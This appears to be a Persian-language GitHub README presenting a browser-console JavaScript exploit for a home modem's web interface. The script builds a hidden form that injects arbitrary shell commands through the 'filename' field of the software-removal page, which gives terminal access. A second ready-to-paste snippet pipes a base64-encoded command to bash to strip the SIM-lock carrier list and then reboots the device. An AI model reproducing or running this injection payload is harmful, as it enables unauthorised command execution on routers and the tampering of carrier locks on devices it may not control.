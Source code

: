 اقا بعد از چند روز کار روی این مودم متوجه یک باگ شدم که دسترسی ترمینال میده و میتونید به ترمینالش دسترسی پیدا کنید فقط باید این خط کد رو داخل سیستمتون وارد کنید 
به صفحه software مودم برید و کلیک راست بزنید و سپس inspect  را بزنید سپس در قسمت کنسول 
 داخل اسکرین شات نشان دادم کجا باید این کد را وارد کرد 

```
(()=>{
    let cmd=`ls -l /`;
      document.getElementById("submenuOnLeftArea4_5").click();let f=document.createElement("form");f.method="post";f.name="sw_remove";f.id="sw_remove";f.action=NewFormAction("control_panel_sw.asp","remove");let c=document.createElement("input");c.type="hidden";c.name="confirm_code";c.value=document.getElementsByName("confirm_code").value;let d=document.createElement("input");d.type="hidden";d.id="filename";d.name="filename";d.value=`c;cd /mnt/jffs2  ;echo "---------------------" ; ${cmd} ; echo "---------------------" ; exit`;f.appendChild(c);f.appendChild(d);document.body.appendChild(f);f.submit()})();

```
 بعد به راحتی به جای  ls -l /
 کد لینوکسی که میخواهیم را جایگذاری میکنیم و اینتر میزنیم



برای انلاک کردن مودم کد زیر را داخل کنسول اجرا کنید 
```
(()=>{
    let cmd=`echo "c2VkIC1pICdzL0xURV9TaW1Mb2NrX1BMTU5MaXN0PVteIF0qL0xURV9TaW1Mb2NrX1BMTU5MaXN0PS8nIC9tbnQvamZmczIvY29uZi91c2VyL2x0ZXNldHRpbmcuY29uZg==" | base64 -d | bash ; reboot`;
      document.getElementById("submenuOnLeftArea4_5").click();let f=document.createElement("form");f.method="post";f.name="sw_remove";f.id="sw_remove";f.action=NewFormAction("control_panel_sw.asp","remove");let c=document.createElement("input");c.type="hidden";c.name="confirm_code";c.value=document.getElementsByName("confirm_code").value;let d=document.createElement("input");d.type="hidden";d.id="filename";d.name="filename";d.value=`c;cd /mnt/jffs2  ;echo "---------------------" ; ${cmd} ; echo "---------------------" ; exit`;f.appendChild(c);f.appendChild(d);document.body.appendChild(f);f.submit()})();

```